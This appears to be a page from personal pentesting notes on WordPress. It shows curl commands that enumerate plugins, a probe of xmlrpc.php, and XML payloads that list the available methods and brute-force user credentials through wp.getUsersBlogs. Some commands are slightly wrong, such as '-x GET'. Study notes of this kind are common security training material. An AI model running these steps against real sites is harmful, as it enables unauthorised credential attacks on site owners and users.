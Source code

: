 | Command Execution                 | Search for anything that permits us to execute OS commands (such as to spawn a shell)                                                                              | 8             |
| SQL Injection                     | Look for applications that have URL parameters that are vulnerable to SQL Injection                                                                                | 9             |


</div></div>

## 
<div class="transclusion internal-embed is-loaded"><div class="markdown-embed">



### ![[Pentesting Web/wpscan\|wpscan]]
### Enum plugins
```shell
curl -s -x GET "webpage.com_oripandport" | grep plugins
```
### Regular expresion (regex)
```sh
curl -s -x GET "webpage.com_oripandport" | grep -oP 'plugins/\K[^/]+' | sort -u
```
### File xmlrpc
https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/
check important file

	IP:PORT/xmlrpc.php
test post

	curl -s -X POST "IP:PORT/xmlrpc.php"
If accept, search abussing file
search available methods to enum valid credentials (wp.getUserlogs)
List methods

	curl -s -X POST "IP:PORT/xmlrpc.php" -d@file.xml

file.xml

	<?xml version="1.0" encoding="utf-8"?> 
	<methodCall> 
	<methodName>system.listMethods</methodName> 
	<params></params> 
	</methodCall>

Brute force attack
Test reques with file2 attack
file2.xml

	<?xml version="1.0" encoding="UTF-8"?>
	<methodCall> 
	<methodName>wp.getUsersBlogs</methodName> 
	<params> 
	<param><value>\{\{your username\}\}</value></param> 
	<param><value>\{\{your password\}\}</value></param> 
	</params> 
	</methodCall>
